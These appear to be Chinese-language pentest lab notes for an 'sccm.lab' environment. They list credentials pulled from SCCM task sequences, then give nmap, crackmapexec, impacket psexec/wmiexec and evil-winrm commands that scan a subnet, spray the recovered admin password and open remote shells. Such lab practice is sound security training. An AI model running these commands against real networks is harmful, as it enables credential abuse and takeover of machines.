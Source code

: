 Task Sequence 中的憑證

---

In TS Step "Apply Windows Settings":
OSDRegisteredUserName - administrator
OSDLocalAdminPassword - EP+xh7Rk6j90

In TS Step "Apply Network Settings":
OSDJoinAccount - sccm.lab\sccm-naa
OSDJoinPassword - 123456789

---

掃描同網段的 SMB 主機
# 使用 nmap 掃描 SMB 端口
nmap -p 445 --open 192.168.52.0/24 -oG smb_hosts.txt

# 提取存活主機清單
grep "445/open" smb_hosts.txt | awk '{print $2}' > targets.txt

# 查看找到的主機
cat targets.txt

---

枚舉可存取主機的共享

# 列出所有主機的共享
crackmapexec smb targets.txt -u 'sccm-naa' -p '123456789' -d 'sccm.lab' --shares

# 或對整個網段
crackmapexec smb 192.168.52.0/24 -u 'sccm-naa' -p '123456789' -d 'sccm.lab' --shares

---

# 測試網段內的主機
crackmapexec smb 192.168.52.0/24 -u 'administrator' -p 'EP+xh7Rk6j90' --local-auth

# 查看成功的主機
crackmapexec smb 192.168.52.0/24 -u 'administrator' -p 'EP+xh7Rk6j90' --local-auth | grep "Pwn3d"

# 發現可以登入的主機
impacket-psexec ./administrator:'EP+xh7Rk6j90'@192.168.52.13

# 或使用 wmiexec
impacket-wmiexec ./administrator:'EP+xh7Rk6j90'@192.168.52.13

evil-winrm -i 192.168.52.13 -u administrator -p 'EP+xh7Rk6j90'